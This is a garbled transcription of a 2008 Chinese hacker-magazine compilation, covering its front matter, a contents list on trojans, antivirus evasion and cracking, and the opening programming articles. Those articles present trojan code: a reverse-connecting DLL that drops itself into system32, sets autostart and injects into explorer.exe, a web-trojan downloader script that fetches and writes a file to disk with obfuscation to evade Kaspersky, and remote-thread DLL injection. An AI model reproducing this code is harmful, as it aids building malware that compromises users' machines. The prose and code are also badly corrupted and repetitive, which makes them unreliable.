# 黑客防线2008精华本（上）

- 黑客编程精华实例
- 黑客免杀技术速成
- 网络管理实战指南
- 加密解密系列专题
- 10大黑客技术专栏
- 200篇精品攻防文章
- 1200MB黑客经典工具与教程

ISBN 7-900447-54-7

9 787900 447548 | 全套定价：39.80元（附光盘）

# 黑客防线 2008 精华本

精华 Lin  
黑客防线 编

## 内容提要

《黑客防线2008精华献本》是国内首创的网络安全类书籍《黑客防线》第73期到第84期的精华章节，各种理念的对立统一在攻与防的统一中寻求突破，完美地体现在本书书中。全书按攻防对抗的关系，分为上下两册（本书为上册），并附2张包含1200M安全技术镜像的光盘。文章通俗易懂，图文并茂，在每个关键点和细节上还有非常详细的“小知识”、“小提示”，方便大家理解和阅读。网络安全技术最热门、读者最喜爱的各大专栏、现有的攻防对抗/攻击防御、漏洞攻击防御、黑客攻击库/黑客防御等，并增加了全新的专题章节，同时选取了国内首创的“新手学习指南”栏目的精华文章，非常适合各层次读者学习！

本书适合高校学生、网络管理员、安全从业者、黑客技术爱好者阅读。

## 出版信息

《黑客防线2008精华献本（上册）》

编：《黑客防线》编辑部

责任编辑：徐生霖

编辑策划：李志丰 黄婷

出版：齐鲁电子出版社

开本：782 × 1092 1/16

印张：36张

字数：3800千字

ISBN 7-900447-54-7

全套定价：38.90元（附光盘）

本书如有印刷质量问题（错印、掉页、残页等），请您与我们联系，我们负责转换。

联系电话：010-62141446

图文版权所有，未经允许不得转载、翻印。

## 关于黑客防线2008精华本的出版说明

首先，要向大家支持、喜爱《黑客防线》的读者们表示歉意，由于各种原因，2008年精华本迟延至今日得以出版了。对于多次询问、催促的朋友们，总算有一个交代。

2008年是不平凡的。这一年，黑防做了很多事情，包括博客一步提升技术水平，到了半年年后又考虑到很多初级读者的要求，普及型的电子书，同时，网站的VIP会员的活跃性，培训的规范化管理。很多事情都是在这一年完成的，以至于2008年精华本能够延续如今，好我们在年底没有重新制作精华本，就出了一份心意，对于一直关注黑防的人，完全收藏黑防本，总算没有出空缺的选择。

其实，大家都知道，2008年精华本，大部分都是2007年来的精华，只不过不是重新制作了一本，而是我们进行了一次索取、去存档的版本的更新。特别是随着作者的加入后，对于各面对技术的认识，以及许多一次的评价和判断，由于我们对这些读者的感谢和支持，感谢我们对作者提供的其他类别的原创文章。我们要的是，由于没有加入...

在此想要说明的是，很多读者想要购买精华本，另一方面对于想要这种形式的刊物，同时我们也是对于想要购买《黑客防线》月刊感到不便，这也是为了我们很多年的麻烦，幸运的是，对于月刊发行和订购，已经有一些改进的方法在实施，但是2009年的出版，准备完全采用快速快捷的方式，就先解决了不能由及时读到黑防杂志的忙碌人士的困难，对于要理解的技巧，就不用太麻烦了。

这本精华的制作之旅，真是不感谢大家了，让我们感到一个时代带给我们网络带来的这个新的变革，希望通过技术手段建立起来的共同贡献，感念作者、编辑者和读者这种理解的感谢。还要感谢网站的VIP会员、培训学徒，他们中许多人已经是我们的作者和技术团队成员，最后希望的是，在技术方面人人平等等这就是黑防赐予我们的无限可能。

# 黑客防线 2008 精华献本

## 目录（上册）

### 编程解析

- VC编写精巧反弹壳木马......................................................................1
- 制作夺取卡巴尼ms0060104网马生成器.......................................6
- 编程实现木马的ActiveX启动和注入IE的启动方式......................9
- 文件监控控制过程......................................................................11
- JSP~Java编程与木马技术..................................................................15
- 修改载入下载引擎Kernel6的下载者......................................................19
- 编写自己的搜索索引查找用户QQ群......................................................25
- 套接字符串实现网页内容的获取......................................................27
- VC轻松打击S++..........................................................................28
- 木马编程DIY之系统服务..................................................................34
- 简易用VB写后门之木马制造..............................................................37
- 编程实现RDoS攻击......................................................................41
- 淡浅毁病毒的特性——防制黑狸猫......................................43
- 利用Wincap编写驱动Sniffer..................................................................45
- 以“黑狸猫”的名字，再读Delphi编写病毒程序..............................48
- 处理病毒黑狸猫完全呈现................................................................54
- Office Spy DIY.............................................................................58
- 论研究怎样能减少新浪UC......................................................60
- NT系统中利用进程连接线程实现无进程DLL......................................62
- 3KB实现多功能PHP木马Simony......................................................65
- 卸载进程中的DLL......................................................................67
- 用VC写游戏防控......................................................................69
- 编程实现手机控制电脑......................................................71
- DNS放大攻击原理、实现与防御......................................75
- 感染系统实现启动......................................................76
- Windows Rootkit 开发实战......................................................80
- 利用 Hook 实现进程守护......................................................84
- 详解挂钩SDT......................................................86
- 鱼雀横桩——木马启动病毒......................................................89
- 服务端生成技术......................................................91
- C# 编程实现半自动扫描器......................................................93
- 自己动手写SQL注入扫描......................................................95
- 用原始套接实现网络入侵检测系统......................................98
- 利用WinInet多线程实现下载速度......................................104
- B/S模式远程控制实现......................................................106
- 基于SMTP/POP3协议的新型客户端实现......................................110
- IRCot由协议分析到编程实现......................................114
- 自己编写木马——扫描执行到底......................................................18
- 浅谈导入函数及输出表......................................................20
- 反流量防护......................................................22
- 增加空字节让PE绕过卡巴基......................................24
- 僵尸客户端极级杀......................................................26
- 猎鱼钩子——针对木马控制的攻击......................................28
- 另类站攻击XSS Shell......................................................31
- 黑弹子再免杀......................................................34
- 打造自己的后门......................................................36
- 免杀NOD32查杀机制输入表——拦截的错误方法......................................38
- 利用“亮中改劫”免杀友2007......................................43
- 溯与免杀心得......................................................44
- 网上简单免杀......................................................46
- 灰鸽子等......................................................48
- PCShare2007全免杀......................................................50
- 修改款壳头卡巴基......................................................51
- 脚本后门及网页......................................................53
- 全面免杀远控......................................................55
- 木马免杀之后内存定位最新医生......................................57
- ISA Server4与南北通软件开花......................................60
- 打造企业时协同部署Live Communications......................................62
- 用Debugging for Windows寻找服务器意外......................................................68
- 实战Bitlocker加密......................................................69
- 部署ISA Server06版防火墙阵......................................72
- 自动移动服务器GHOST................................................77
- 自动创建级分服务器......................................................80
- 批量处理文件服务器......................................................81
- 菜鸟也学上架Cisco路由器......................................86
- 小学破解之一兵器及其组合......................................89
- 小学破解之二风......................................................93
- 小学破解之三玩风......................................................96
- 手把教你net程序加密之一式.net......................................98
- 手把教你net程序加密之二名诸用......................................10
- 小学破解之四汇编笔记与算法基础......................................12
- 深入分析与QQ加密的Protect技术......................................14
- 保护的保护......................................................19
- 手把教你net程序加密之三实保护......................................24
- 小学破解之五爆破与破解方法......................................26
- 小学破解之四程序加密下破解的壳......................................32
- 小学破解之六插件......................................................35
- 小学破解之七VB跟踪与分析技术......................................43

# PROGRAMMING ANALYSIS

## 客防御技术

> 我的博客 | socket@hacker.com
>
> 适合者：编程爱好者，黑客爱好者  
> 前置知识：懂VC

**VC编写错误文 / 林涛（xgvm）**

现在的满天，比比较小大家认可的软件要灰鸽和PCS了，但这些软件并没有被杀软件盯得严，而且要辛苦的写病毒。大病毒是相对的，我们可以修改它的病毒，入口点加入壳，然后隐藏自己的代码，这也有些困难了，只能写比较大的病毒了，比如比斯、NOD，但不保证写出一个病毒被那些杀软件识别，等到了有一天最好的办法就是自己写病毒。如果已经写了病毒，网上的基本面就是只想实现简单的功能就可以了，但是什么样的资源可以做到呢？基本上只需要实现一个控制的DLL可以吗？我们可以控制服务器，那么自动启动有了，这需要通过劫持进程注入，自动启动的病毒我们也许可以，但是怎么呢，怎么写完整的病毒？好像不要用博客和教程去写这么复杂的了，最多写一个小插件或者从网上下载一个（吧），自己看，害也不让你了。我们熟悉的工具是VC，我们要写的软件功能可能没错，而且需要精力，运行效率高。DLL的编写是在很多的杂志里已经经营了，今天要在以前的基础上再研究与分析一个DLL技巧，这个DLL是服务器的核心，所有扩展和通讯都是这里。真实的，这个DLL是被后面要注入的`App.exe`动态生成的，释放的时候就不怕了，它动态注入到浏览器中，也就看明白了不一步的方法。写DLL的具体技巧，直接看吧！

首先是选择工具，目前的开发工具是VC、Delphi、VB和C++，但是又复杂，新手并不友好。用Delphi比VC简单得多，因为它的语言要求比较低，而且编译出来的软件比VC大很多，容易引起错误。虽然VC编写的软件比较精巧，但是运行效率又是高。

直接写一个程序的DLL，这里，每一个DLL必须有一个入口，初始化（Initialization）和结束（Termination）。每一个程序或者进程的运行都需要调用DLL，或者当我们不再使用DLL或者结束时，都会调用`DllMain`，代码如下：

```
HINSTANCE HINSTANCE hInstance, DWORD dw_reason,
LPVOID lpReserved) {
```

```
// 使用未使用的参数
UNREFERENCED_PARAMETER(lpReserved);
// 载入
```


``` 
if (dw_reason == DLL_PROCESS_ATTACH)
{
// 初始化
TRACEX(DLL_Initialization(nInst));
```

``` 
// 调用AfxExtensionModuleInit函数
检查该函数的返回值，如果DllMain返回了0
if (!AfxExtensionModuleInit(hDLL, hinstance)) {
    return 0;
```


``` 
// ActiveX 所需要的资源，线程结束时的状态信息
CreateThread(NULL, NULL, NULL, NULL);

// 在新线程上分配内存
new CDwnLinkLibrary(hModuleInst);
// 启动我们的线程
StartProcessAtStartup(NULL);
}

// 在退出时进行清理工作，这里是 DLL退出时
elif (dwReason == DLL_PROCESS_DESTROY) {
    TRACEX(CreateThread(NULL, NULL, NULL, NULL));
    // ActiveX-AfxTermExtensionModule 释放内存
    AfxTermExtensionModule(hModuleInst);
    return 1;
}
```

# PROGRAMMING ANALYSIS

``` 
DWORD WINAPI SocketStartConnect(LPVOID lpvoid) {
    // 创建Socket
    SOCKET sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    sockaddr_in addr_in = (0);
    // AF_INET: IPv4套接字面向互联网的类型
    // SOCK_STREAM, TCP 使用流式传输
    addr_in.sin_family = AF_INET;
    // 从IP中获取主机地址
    addr_in.sin_addr.s_addr = inet_addr("socket.com");
    // 端口号
    addr_in.port = htons(80);
    // Socket连接检查错误
    int ret = connect(sock);
    // 错误处理
    HANDLE handle = NULL;
    while (ret == SOCKET_ERROR) {
        ret = connect(sock, (struct sockaddr*)&addr_in, sizeof(addr_in));
        if (ret == 0) {
            break;
        // 一旦连接成功返回错误信息
        ret = -1;
        // 关闭 Socket
        closesocket(sock);
        sock = socket(AF_INET, 0);
        Sleep(1000);
        return ret;
    }
}
```

这些就是DLL的主要代码了，啊，可能多到这里为止，与控制通讯的部分已经介绍了，但是要服务的部分就是它只是一个DLL的PE文件，并不是一个可执行文件，而且我们还要它的动态加载到例（进程）中，我们完全可以让它加载到其他程序之中，其中有很多很多木马病毒的，在自己的运行时直接连接到进程或者其他程序中的好处就是可以处理它，但是感觉DLL也不错，毕竟是动态链接，方便维护和共享。

接下来来看看加载DLL的后续操作，首先查看`App.exe`的开头是如何分析的。

``` 
#include "Tiny.h"
#define DLLFILE "System.dll"
// 定义一个文件解析结构
// 获取从已加载的DLL中导出函数名
HMODULE hProc;
// 获取导入函数地址
BOOL GetAddress(HMODULE hModule, char* functionName);
// 提升权限
BOOL EnablePrivilege(BOOL);
// 用来创建文件
HANDLE CreateFile(FileName)
```

引入`Tiny.h`是优化`App.exe`的，它的代码如下:

``` 
// Version 1.10
// Version 1.00
#ifndef DEBUG
#pragma comment("*link,DEBUG")
// RELEASE 版本的构建标识
#pragma comment("*link,RELEASE")
#pragma comment("*link,MERGERDATA")
// 合并数据段
#pragma comment("*link,merge.data=merge.data")
#endif
#pragma comment("*link,merge.text=data")
```

``` 
// 获取Socket选项的返回值
ret = getsockopt(sock, ...);
int new;
int len = sizeof(int);
// 设置Socket选项的返回值
ret = setsockopt(sock, ...);
// 设置Socket选项的返回值
ret = setsockopt(sock, ...);
// 获取系统调用结果
// 获取系统调用中的错误码
ret = GetLastError();
// 如果参数不是ASCII(字符串) 失败则返回，0
ret = strdup("CKadmin");
if (ret == 0) {
    // 在主方法在这里退出，
    CreateThread(NULL, 0, NULL, NULL, 0, NULL);
    if (handle == NULL)
        return 0;
    // 退出线程
    break;
}
```

``` 
#pragma comment(linker,"/merge:reloc=data*")
#if _MSC_VER >= 100
#endif
#endif
// 入口点函数
```

`AxX`启动的方法。我们的`App.exe`最后将放在系统的`system32`中，名为`Ax.exe`，注册在`HKEY_LOCAL_MACHINE`中的注册和路径设置为`[HKEY_LOCAL_MACHINE\SOFTWARE\AB-B70-7712-D92-CD000F57A6-92211BHLJK]`和文件的链接路径。`CreateServer()`函数用来创建之前的DLL文件，详细的解释一下这个函数创建，我需要的是：

``` 
#pragma comment(linker,"/ENTRY:WinMain")
#pragma comment(linker,"/MERGE:data=data*")
#pragma comment(linker,"/MERGE:text=data*")
#pragma comment(linker,"/init:crt")
#if (_MSC_VER < 100)
#pragma comment(linker,"/OPT:NOREF")
#pragma comment(linker,"/OPT:NOINFO")
#endif
```

首先在开始的时候，我已经准备好了`Dll.dll`，把它接到`App.exe`执行后，在工程中的`ResourceView`点击，选择后进入我们的`Dll`文件，资源可以定义，或者你定义的类型：资源这个`Tiny`真是太好了，每次写程序在调试下可以参考某些参数传递。现在直接把注入到进程中。`Injector`（可以注入任意函数）和`Inject`（以进程运行）里面有类似的方法和参数可以这样就不会崩溃了。我告诉了你们从源码运行，如图所示。

``` 
int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpLine, int n)
```

``` 
PROCESS_INFORMATION pi;
STARTUPINFO si;
ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
ZeroMemory(&pi, sizeof(pi));
CreateProcess(NULL, (LPSTR)"cmd.exe", ...
si.dwFlags = START_HIDE;
CreateProcess(NULL, (LPSTR)"C:\Program Files\Internet\explorer.exe", NULL, NULL, 0, &si, &pi);
WaitForSingleObject(pi.hProcess, INFINITE);
CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);
```

引入后，我们就可以把DLL注入到`App.exe`的资源中了，然后再看里面是怎么样的，整个`CreateServer()`函数的代码如下上面的代码是主入口的。如果没有它，注入DLL的操作就会失败，`CreateFile()`用来创建文件确的是创建`System.dll`，`CreateFile()`和`CreateServer()`之间的代码就是

``` 
BOOL CreateServer() {
  HRSRC hResInfo;
  GLOBAL hData;
  DWORD dwSize, dwWrite;
  // 文件句柄
  HANDLE hFile;
  char SystemPath[MAX_PATH] = {0};
  // 获取系统目录
  GetSystemDirectory(SystemPath, MAX_PATH);
  int len = strlen(SystemPath) - 1;
  if (SystemPath[len] != '\\')
    SystemPath[len] = 0;
```


``` 
// 创建 DLL，创建资源名为 System.dll 复制到系统目录下
strcat(SystemPath,"System.dll");
// 获取所需的资源
hResInfo = FindResource(NULL, MAKEROURCE(ID_DLL, "DLL"));
if(hResInfo == NULL) {
```

``` 
MessageBox(NULL,"搜索所需要的资源失败\n错误",MB_OK);
```

``` 
// 获取资源尺寸
dwSize = SizeOfResource(NULL,hResInfo);
// 获取资源
hData = LoadResource(NULL,hResInfo);
if(hData == NULL) {
// 写文件
hFile = CreateFile(strDestPath,GENERIC_WRITE,0,NULL,CREATE_ALWAYS,0,NULL);
if(hFile == NULL) {
    return FALSE;
}
CloseHandle(hFile);
return TRUE;
```

``` 
strcat(strDestPath,"\\");
strcat(strDestPath,fakeName);
// 拼接目标路径，将资源复制到系统目录下
if(!CopyFiles(strTmp,strDestPath,FALSE)) {
    return FALSE;
}
return TRUE;
```

这样就实现了程序的自资源到系统目录的操作，服务端完全完成了。

## 调试参数

上面的代码已经清晰了，大家看了就能明白了，这里最重要的资源是`hResInfo=FindResource(NULL,MAKERESOURCE(ID_DLL,"DLL"))`,就是编写获取资源的ID和类型，最后用到了`CopyFileSysDir(dll)`函数，其代码如下控制服务端的部分就不详细介绍了，大家可以看看读者的代码仔细研究一下的，我的控制服务端就是在服务端连接时就启动生成的，把该功能和`dll.dll`加入到`App`的exe中即可。

``` 
// 创建系统在System%s\system%s目录下路径名为explorer.exe
char strPath[MAX_PATH];strPath[MAX_PATH]="explorer.exe";
char strDllName[MAX_PATH];
// 获取程序所在根目录
if(!GetModuleDirectory(NULL,strDllName,sizeof(strDllName)) ) {
    return FALSE;
}
```

接下来来编写一段关于客户端的功能代码，这个目标支持 Windows 2000/XP/2003 版本，特点是无进程，无需 Active，自动保持，运行时程序到exe中可以实现同时连接，本身不受影响，服务端和客户端只有20个连接，随身非常方便，服务端可以使用内网网关、路由器标准认证或密码验证。

``` 
if(!GetSystemDirectory(strDestPath,MAX_PATH));
    return FALSE;
}
// 最后拼接路径System%s\system.exe
```

下面是软件运行的截图：主界面

 服务端界面

 服务端上线后的界面

 要求密码验证的窗口

 验证成功后返回的窗口

适合读者编程爱好者。最近对制作网页爱好者产生了兴趣，是为了方便，我发现了一些想法，其代码如下：

``` 
<script language="JavaScript">
non error next
html="http://..."
set str = document.createElement("object")
str.setAttribute("class","BD9C556-6A3D-983A-0C42C5F2E36")
set str=Microsoft.XMLHTTPRequest()
set x = document.createElement(str)
alid="a"
open="*"
```

``` 
a4="test*"
str1=al&a2&a3&a4
str5=str
set S = document.createElement(str5)
S.type = "1"
str6="GET"
x.open
frame1="google.com"
set F=document.createElement("Scripting.FileSystemObject")
set tmp = F.GetSpecialFolder(2)
frame1=F.BuildPath(tmp,frame1)
s.open
S.write x.responsebody
asetfile frame1
```

 所示。之后我们发送一个`net`的请求，看着返回的窗口。如图10所示。


如果我在比较时使用Unicode的字符不会出错吗？使用加密后的代码如下：

``` 
<HTML>
<SCRIPT language="JavaScript">
var Hex = %C3%A0%C3%A2%C3%AC%20%C3%A6%20%C3%A9%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%20%C3%A6%
```


# PROGRAMMING ANALYSIS

一下：

```javascript
function Out() {

  var Words;

  NewWords = unescape(Words);

  document.write(NewWords);

}
```

下标一下，图

```html
<script>

<head>

</head>

<body>

<script>

function Out() {

  var Words;

  NewWords = unescape(Words);

  document.write(NewWords);

}

</script>
```

```html
<script>
<head>
</head>
<body>
<javascript>
function Out() {
  var Words;
  NewWords = unescape(Words);
  document.write(NewWords);
}
</script>
```

```html
<script>

<head>

</head>

<body>

<javascript>

function Out() {

  var Words;

  NewWords = unescape(Words);

  document.write(NewWords);

}

</script>
```

```html
<script>
<head>
</head>
<body>
<javascript>
function Out() {
  var Words;
  NewWords = unescape(Words);
  document.write(NewWords);
}
</script>
```

```html
<script>

<head>

</head>

<body>

<javascript>

function Out() {

  var Words;

  NewWords = unescape(Words);

  document.write(NewWords);

}

</script>
```

```html
<script>
<head>
</head>
<body>
<javascript>
function Out() {
  var Words;
  NewWords = unescape(Words);
  document.write(NewWords);
}
</script>
```

```html
<script>

<head>

</head>

<body>

<javascript>

function Out() {

  var Words;

  NewWords = unescape(Words);

  document.write(NewWords);

}

</script>
```

```html
<script>
<head>
</head>
<body>
<javascript>
function Out() {
  var Words;
  NewWords = unescape(Words);
  document.write(NewWords);
}
</script>
```

```html
<script>

<head>

</head>

<body>

<javascript>

function Out() {

  var Words;

  NewWords = unescape(Words);

  document.write(NewWords);

}

</script>
```

```html
<script>
<head>
</head>
<body>
<javascript>
function Out() {
  var Words;
  NewWords = unescape(Words);
  document.write(NewWords);
}
</script>
```

```vb
Private Sub Create()

  Dim File

  Open "rjnu.html" For Output As

  <html>

  <script language="javascript">

  function Out() 

</script>
```

```vb
Randomize

b = Fix(65 + Rnd * 58)

Wend

d = d & Chr(b)
```

```html
<html>

<script language="JavaScript'>

测试结果，在安装了卡巴但是且没有

ms06014插件的机器上可以正常运行的。这种

方法生成的网页码可以通过自己加密来进一步安全。另外，外

中的干扰码的位数和行数是可以设置的。可

根据需要来调整。例如，这种简单的算法的运用

语言是很快的，希望大家能够很好的效果。",
```

```vb
Close #"关闭文件，千万不要"
MsgBox "在当前屏幕显示随机码",64,"随机码提示"

End Sub
```

```vb
Dim b, d As Integer

e = Text("获取用户输入写入干扰码的数字"
g = Text("获取用户输入写入干扰码的数字"

For i = 1 To Len(e)
```

```vb
For r = 1 To c
```

```cpp
include <windows.h>

int APIENTRY WinMain(HINSTANCE hInstance,

HINSTANCE hPrevInstance,LPSTR pCmdLine,int nCmdShow)
```

```cpp
// CreateProcess

PROCESS_INFORMATION pi = 0;

// 启动信息

STARTUPINFO si = 0;

// 进程信息

ZeroMemory(&si, sizeof(si));

// 创建标志

s.dwFlags = START_USESWINDOW;

// 窗口模式

s.wShow = SW_HIDE;

// 进程句柄

pi.hProcess = SW_HIDE;
```

```cpp
NULL,

NULL,

0,

CREATE_SUSPENDED,

NULL,

&si,

&pi;
```

```cpp
// TODO: Place code here.

HKLM_LOCAL_MACHINE
```

```cpp
CreateProcess(NULL,NULL,NULL...);
```

# PROGRAMMING Analyse

减少很多，每次在编码的时候会遇到这样的做法，避免了我们费劲不用直接写一个文件（`my.h`），直接调用就少了很多麻烦。下面是`my.h`的代码。

```cpp
// Version 1.0

// xyg

// May 20th, 1999

// xymcn@163.com

#ifdef DEBUG

#pragma comment optimize("get", "get")

#pragma comment(linker,/RELEASE)

#ifdef MERGE_RDATA

#pragma comment(linker,/merge.data="data")

#endif

#pragma comment(linker,/merge.text="data")
```

```cpp
#pragma comment(linker,/merge.data="data")

#if MSC_VER >= 1600

#endif

#pragma comment(linker,/MERGE:data="data")

#pragma comment(linker,/merge.text="data")

#pragma comment(linker,realloc.data)

#if MSC_VER < 1300

#pragma comment(linker,/IGNORE:NO4078)

#pragma comment(linker,/OPT:NOWIN99)

#endif

#define WIN32_AND_MEAN
```

适合读者：编程爱好者

前置知识：VC



参加写作一年了，虽然是做程序但是对程序却有些认识，而且平时也曾经写一些程序。下面，下面就把自己的想法发表出来，我在处用的软件种类是C+/C/S，客户端和服务器用的VC版本是6.0，调试工具是Debugger，视图的调试API是`OutputDebugString(String lpc)`在开发底层系统的核心技术是Hook API。我想，如果把功能做到极致，应该采用系统级调试，比如注册回调、拦截函数、修改数据等。只要把做成产品，就不需要花太多时间来调试。Windows运行稳定不会崩溃，调试非常方便。我有一个故事，在做插件时，调试Windows2003操作后发现了一个一个月，后来发现`GetOSVersion`导致了Windows2003版本不稳定，对于大部分的情况是在用户下底层是终结的。毕竟这种Hook是最容易选择的。

`ProcMon.dll`和`CreateFile.dll`，`ProcMon.dll`在程序中注入了0和4的原理就是同时监控两个API：`CreateFile`和`CreateProcessW`，监控`CreateProcess`完成的功能是发现新进程执行的时候，`ProcMon.dll`和`CreateFile.dll`保证了新创建的进程`ProcMon.dll`和`CreateFile`，这不需要特殊参数来调用`CreateFile`，这会被视为运行后的结果。

现在的程序大家都很清楚，程序的术已经了，但你知道它是实现的？在这里我们用的`Hook API`库，还是是最容易上手的人的，你也需要了解它的基本原理是事实上，Win32 API是一个组动态链接库的，使用动态链接库是为了共享。由于动态链接库是动态加载的，Win32程序的入口是固定的，当Windows程序地址时，并不是通过调用某个存储的动态固定的地址来实现调用的，这个地址名为`Import Table`（导入），知道了，接下来我们要做的说是办法找到每一个单位的方法。

# 进阶技巧

下面大家介绍一种用户文件的监控此程序的调试包括`Explorer.exe`、`ProcMon.dll`和`CreateFile.dll`，其别名为Explorer启动和将其替换为接管函数的入口，不过要事先保存原函数的入口，以便在处理了接管函数后，可以在适当的地方通过这种方式再次调用原函数，在退出的时候或者是不打算再接管它的时候，再将其恢复为原函数的入口，这就是Win32 API的基本步骤。

```text
LSECURITY_ATTRIBUTES lpProcessAttributes, LSECURITY_ATTRIBUTES lpThreadAttributes, LPOVOID bInheritHandle, DW CreationFlags, LPOVOID lpEnvironment, LPWSTR lpCurrentDirectory, LPSTARTUPINFO lpStartupInfo, LPPROCESS_INFORMATION lpProcessInformation
```

## 1.`ProcMonMain`

首先建立一个Win32动态连接，使用指向用户选择、3，如1所示。创建后、删除`ProcMon.cpp`文件中的以下内容。

这里有一个函数参数，`DetourProcessW` 是我们要创建`ProcessW`的句柄，`Injected`是用于注入函数中的拦截钩子，用于用户自定义。

| Back | Next | Default | Cancel |
|---|---|---|---|
| 详细介绍`DetourProcessW`的实现 | 拦截函数钩子，查看内核钩 | 进程的名称，这里需要Unicode编码 | 字符串处理，创建不需要拦截的进程 |

```cpp
#include "ProcMon.h"

// This is an example of exported variable

PROCMON_API int nMon;

// This is an example of exported function.

PROCMON_API int fnMon(void)

{

    // This is the constructor of a class that has exported.

    return;

}
```

```cpp
// 挂载的句柄

HANDLE hSnap;

PROCESSENTRY32 procEntry;

proc.dwSize=sizeof(procEntry);

hSnap=CreateToolhelp2Snapshot(TH32CS_SNAP_PROCESS, 0);

bNext=Process32FirstW(hSnap, &procEntry);

while(bNext)

{

    if(wcsmp(procEntry.szFile, "File.exe",))

    {\{\n        hkernel32 = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procEntry.th32Process);

        hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA"), (LPVOID)pe.szFile, 0, 0, NULL);

        Inject(pe.th32Process, pe.szFile, pe.th32Process);

        break;

    }

    bNext=Process32NextW(hSnap, &procEntry);

}

CloseHandle(hSnap);
```

```cpp
char eyePath[MAX_PATH]=0;

char s_path2[MAX_PATH] = {0};

GetSystemDirectory(s_path,MAX_PATH);

strcat(s_path2,"\CreateMon.dll");
```

```cpp
int nResponse = DoModal(NULL);

if (nResponse == IDOK)

{

    // Place code here to handle the when

    // dismissed with OK

}

else if (nResponse == IDCANCEL)

{

    // TODO: Place code here to handle the when

    // dismissed with Cancel

}
```

```cpp
GetSystemDirectory(s_path1,MAX_PATH);

strcat(s_path1,"ProcMon.dll");

InjectDLL(s_path2,pe.h32Process);

InjectDLL(s_path1,pe.h32Process);
```

```cpp
// 输出调试信息

OutputDebugString(s_path2);

OutputDebugString(s_path1);
```

```cpp
BOOL ret;
```


```c
ret = Real_CreateProcess(lpApplicationName,lCommandLine,lpProcessAttributes,lpThreadAttributes,bInherit,dwCreationFlags,lpEnvironment,lpCurrentDirectory,lpStartupInfo,lpProcessInformation);

return ret;
```

经过上述处理后，其结果如图2、3和图4所示，我们就可以带窗口的nWin32进程运行了，后续的工作就是释放n资源，它的代码如下：

## 2.EDLoader.exe

`EDLoader.exe`主要用于创建`ProcMon.dll`和`FileMon.dll`到系统目录下，然后我们把它们注入到了进程#0和#4的进程中，然后完成了第二个Win32进程后，但是要释放资源只能用MFC来做，后来我就想了一个完全通用的办法如下：

首先创建一个基于MFC的程序，并在`EDLoader.h`和`EDLoader.cpp`中，删除`EDLoader.cpp`文件中的`#include "EDLoader.h"`和下面的代码：

```cpp
/*

EnableCtrlCancelContainer()

{

// Standard Initialization

// If you are not using these features and when

to reduce the size

// of your final executable, you should remove

to the following

// the specific initialization routines you do not

*/
```



```cpp
#ifdef _AFDLL

EnableCtrlCancelStatus();

// Call this using MFC in a shared DLL

#else

EnableCtrlCancelStatus();

// Call this to MFC statically

#endif

CEDLoaderDlg dlg;

_pMainWnd = &dlg.m;
```



```cpp
/* (release)
```


| # | Time | DebugPrint |
|---|---|---|
| 0 | 00:00:00.000 | C:\System32\CreateFileMem.dll |
| 1 | 00:00:00.000 | C:\System32\CreateFileMem.dll |
| 2 | 00:00:00.000 | C:\System32\CreateFileMem.dll |
| 3 | 00:00:00.000 | C:\System32\CreateProcMem.dll |
| 4 | 00:00:00.000 | C:\System32\CreateProcMem.dll |
| 5 | 00:00:00.000 | C:\System32\CreateProcMem.dll |
| 6 | 00:00:00.000 | Process |
